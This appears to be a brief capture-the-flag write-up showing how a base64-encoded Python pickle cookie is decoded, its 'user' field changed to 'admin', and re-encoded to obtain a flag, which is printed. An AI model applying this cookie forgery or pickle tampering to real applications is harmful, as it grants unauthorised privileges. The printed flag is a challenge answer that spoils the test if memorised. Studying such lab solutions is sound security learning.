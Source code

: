 cookie: KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu
decode: 
(dp1
S'python'
p2
S'pickles'
p3
sS'subtle'
p4
S'hint'
p5
sS'user'
p6
Ns.

>>> import pickle
>>> s = pickle.loads(open('pickle').read())
>>> s
{'python': 'pickles', 'subtle': 'hint', 'user': None}
>>> s['user'] = 'admin'
>>> pickle.dumps(s)
"(dp0\nS'python'\np1\nS'pickles'\np2\nsS'subtle'\np3\nS'hint'\np4\nsS'user'\np5\nS'admin'\np6\ns."
>>> open('pickle2','w').write(pickle.dumps(s))
KGRwMApTJ3B5dGhvbicKcDEKUydwaWNrbGVzJwpwMgpzUydzdWJ0bGUnCnAzClMnaGludCcKcDQK
c1MndXNlcicKcDUKUydhZG1pbicKcDYKcy4=

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
